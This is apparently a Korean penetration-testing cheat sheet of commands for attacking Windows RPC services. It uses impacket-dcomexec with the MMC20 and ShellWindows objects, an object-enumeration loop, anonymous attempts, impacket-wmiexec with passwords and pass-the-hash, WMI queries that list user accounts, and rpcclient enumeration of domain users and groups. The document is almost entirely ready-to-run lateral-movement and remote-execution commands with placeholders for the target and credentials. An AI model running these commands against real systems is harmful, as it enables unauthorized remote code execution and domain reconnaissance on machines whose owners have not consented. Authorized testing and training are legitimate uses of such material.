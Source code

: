 ### 🖥️ DCOM 공격 (포트 135 활용)

```bash
# DCOM 서비스 확인
impacket-dcomexec {IP}
impacket-dcomexec {USERNAME}:{PASSWORD}@{IP}

# MMC20.Application을 이용한 실행
impacket-dcomexec {USERNAME}:{PASSWORD}@{IP} -object MMC20
impacket-dcomexec {USERNAME}:{PASSWORD}@{IP} -object ShellWindows
impacket-dcomexec {USERNAME}:{PASSWORD}@{IP} -object ShellBrowserWindow

# 익명 DCOM 시도
impacket-dcomexec -no-pass {IP}

# DCOM 열거
#!/bin/bash
dcom_objects=("MMC20.Application" "ShellWindows" "ShellBrowserWindow" "Excel.Application" "Word.Application")
for obj in "${dcom_objects[@]}"; do
    echo "Testing DCOM object: $obj"
    impacket-dcomexec {USERNAME}:{PASSWORD}@{IP} -object $obj
done
```

### 🌐 WMI 공격 (RPC 기반)

```bash
# WMI 연결 시도
impacket-wmiexec {USERNAME}:{PASSWORD}@{IP}
impacket-wmiexec -hashes {HASH} {USERNAME}@{IP}

# 익명 WMI 시도
impacket-wmiexec -no-pass {IP}

# WMI 정보 수집
impacket-wmiquery {USERNAME}:{PASSWORD}@{IP} "SELECT * FROM Win32_ComputerSystem"
impacket-wmiquery {USERNAME}:{PASSWORD}@{IP} "SELECT * FROM Win32_OperatingSystem"
impacket-wmiquery {USERNAME}:{PASSWORD}@{IP} "SELECT * FROM Win32_UserAccount"

# WMI를 통한 명령 실행
impacket-wmiexec {USERNAME}:{PASSWORD}@{IP} "whoami"
impacket-wmiexec {USERNAME}:{PASSWORD}@{IP} "ipconfig"
```

### 🔐 인증된 RPC 접근 (크레덴셜 있는 경우)

```bash
# 유효한 크레덴셜로 RPC 접근
rpcclient -U {USERNAME} {IP}
# Password 입력 후:
srvinfo
enumdomusers
enumdomgroups
enumprinters
enumprivs

# 사용자 정보 상세 조회
queryuser {RID}
querygroup {RID}
querygroupmem {RID}

# 도메인 정보 수집
querydominfo
enumdomains
```